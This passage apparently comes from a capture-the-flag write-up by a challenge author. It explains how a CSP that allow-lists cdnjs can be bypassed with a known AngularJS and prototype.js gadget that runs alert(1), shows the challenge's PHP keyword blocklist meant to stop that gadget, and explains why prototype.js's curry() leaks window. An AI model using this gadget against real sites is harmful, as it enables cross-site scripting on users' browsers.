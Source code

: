We still can't perform XSS because there is a CSP to bypass.

## CSP Bypass
Below you can find the rules of the CSP:

```php
<?php
  header("Content-Security-Policy: ".
      "default-src 'self'; " .
      "img-src http: https:; " .
      "style-src 'unsafe-inline' http: https:; " .
      "object-src 'none';" .
      "base-uri 'none';" .
      "font-src http: https:;".
      "frame-src https://www.youtube.com/;".
      "script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/;");
?>
```
Here the csp bypass should be clear, `https://cdnjs.cloudflare.com/ajax/libs` is inside the allow-list, so we can use the some angular gadget in order to execute Javascript.
There is a very well-know gadget that is used in almost every CTF (doesn't require user-interaction) when it comes to this types of challenges:
```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().alert(1)}}
</div>
```
But in this challenge it won't work, we blocked this gadget with the following lines of codes (we alse did some other checks to be sure that couldn't  be possible to bypass this blacklist):

```php
$dangerous_words = ['eval', 'setTimeout', 'setInterval', 'Function', 'constructor', 'proto', 'on', '%', '&', '#', '?', '\\'];

foreach ($dangerous_words as $word) {
  if (stripos($desc, $word) !== false){
    header("Location: app.php#msg=dangerous word detected!");
    die();
  }
}
```
It means that the player needs to find a new gadget, but before let's see why `prototype.js` was needed, in this way we can understand how to find a new gadget.
prototype.js is needed because it adds a few methods to the prototype, like the following one:

```js
function curry() {
  if (!arguments.length) return this;
  var __method = this, args = slice.call(arguments, 0);
  return function() {
    var a = merge(args, arguments);
    return __method.apply(this, a);
  }
}
```
From `if (!arguments.length) return this;` we know that if we perform `function.call()` without providing an argument, it will return `this`, which in this context is going to be `window` in non-strict mode, (in javascript `window` is the global object.)
It works because if `call()`, which is built-in method, <strong>is performed withouth an argument and the function is not in strict mode, null and undefined will be replaced with the global object.</strong>
